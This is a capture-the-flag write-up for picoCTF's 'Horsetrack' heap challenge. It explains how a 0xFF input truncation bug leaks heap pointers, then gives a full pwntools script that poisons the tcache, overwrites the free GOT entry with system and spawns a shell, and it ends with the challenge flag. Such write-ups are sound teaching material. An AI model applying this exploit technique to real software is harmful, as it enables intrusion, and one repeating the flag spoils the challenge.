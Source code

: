 # Horsetrack
Points: 300

This problem is a standard heap challenge.
```
1. Add a horse
2. Remove a horse
3. Race
4. Exit
Choice: 
```
There is also one hidden menu option not displayed to the user, which allows overwriting the first 16 bytes of any chunk.
```
0. Cheat
```

The vulnerability is how the binary takes in input.
```c
void input(char *param_1,uint param_2) {
    int iVar1;
    char *local_20;
    char local_d;
    int local_c;

    printf("Enter a string of %d characters: ",(ulong)param_2);
    local_c = 0;
    local_20 = param_1;
    while( true ) {
        if ((int)param_2 <= local_c) {
            do {
                iVar1 = getchar();
            } while ((char)iVar1 != '\n');
            *local_20 = '\0';
            return;
        }
        iVar1 = getchar();
        local_d = (char)iVar1;
        while (local_d == '\n') {
            iVar1 = getchar();
            local_d = (char)iVar1;
        }
        if (local_d == -1) break;
        *local_20 = local_d;
        local_c = local_c + 1;
        local_20 = local_20 + 1;
    }
    return;
}
```
The issue is that the `input` function will bail if `getchar` ever returns `-1`. You might think that a `-1` return value
only occurs if `getchar` fails to read, but `getchar` return type of `getchar` is a signed int, not a char. This means that
if `getchar` ever reads the character `0xFF` it will be casted to `-1` and the input function will end early.

Why is this important? If the input function does not populate the allocated chunks with data, then heap pointers can be leaked
because the old data in the chunks was not overwritten.

The binary is position dependent, and contains a dynamic entry for `system`, meaning that we do not have to worry about the libc.
The binary is also using glibc 2.35, meaning that in order to overwrite points in the tcache or fastbin we need a heap leak first.
Thankfully this can be accomplished using the bug described above.

Exploit:
1. leak heap address
2. calculate heap base
3. use the hidden edit function to overwrite a tcache chunk next pointer to the `free` GOT entry
4. overwrite the `free` GOT entry to point to the `system` PLT entry
5. delete a chunk that contains `/bin/sh`, triggering a call to `system("/bin/sh")` and popping a shell

```python
from pwn import *
from z3 import *
import sys

file = ELF("./vuln")
if args.REMOTE:
    io = remote("saturn.picoctf.net", 55281)
else:
    io = process("./vuln", stderr=sys.stdout)

choice = b"Choice: "
number = b"? "

def make(index, data, length=None):
    io.sendlineafter(choice, b"1")
    io.sendlineafter(b"? ", str(index).encode())
    if length == None:
        length = len(data)
    io.sendlineafter(b"? ", str(length).encode())
    io.sendlineafter(b": ", data)

def kill(index):
    io.sendlineafter(choice, b"2")
    io.sendlineafter(b"? ", str(index).encode())

def edit(index, weight, data):
    io.sendlineafter(choice, b"0")
    io.sendlineafter(b"? ", str(index).encode())
    io.sendlineafter(b": ", data)
    io.sendlineafter(b"? ", str(weight).encode())

def race():
    io.sendlineafter(choice, b"3")

def parse(horses):
    def find(haystack, needles):
        split = 12345
        for needle in needles:
            try:
                now = haystack.index(needle)
                split = min(split, now)
            except:
                continue
        return split

    lines = list()
    for i in range(horses):
        line = io.recvline().strip()
        split = find(line, b" \n|")
        line = line[:split]
        lines.append(line)
    return lines

def dec(leaked, off):
    leaked = BitVecVal(leaked, 48)
    off  = BitVecVal(off,48)

    res  = BitVec('res', 48)
    sss  = BitVec('sss', 48)

    s = Solver()

    s.add((sss>>12)^res==leaked)
    s.add((sss>>12)-(res>>12)==off)
    s.add((res>>40)<=0x7f)
    s.add((res>>40)>=0)

    if str(s.check()) == 'sat':
        m = s.model()
        return  m.evaluate(res).as_long() & 0xfffffffff000
    else:
        print(s.check())
        exit(1)

for i in range(5):
    make(i, b"A" * 0x38)
for i in range(5):
    kill(i)
for i in range(5):
    make(i, b"\xFF", length=0x38)

race()
leaks = parse(5)
for leak in leaks:
    leak = u64(leak.ljust(8, b'\x00'))
    print(f"[+] leak: 0x{leak:x}")
a = u64(leaks[1].ljust(8, b"\x00"))
heap_base = dec(a, 0x5b0)
print(f"[+] heap base: 0x{heap_base:x}")

kill(3)
kill(4)
edit(4, 0, p64((file.got["free"] - 8) ^ (heap_base >> 12)) + b"\xFF")
make(4, b"\xFF", length=0x38)
make(5, b"\x00" * 8 + p64(file.plt["system"]) + b"\xFF", length=0x38)
edit(4, 0, b"/bin/sh\x00" + b"\xFF")
kill(4)

io.interactive()
```

# Flag: `picoCTF{t_cache_4ll_th3_w4y_2_th4_b4nk_237a0607}`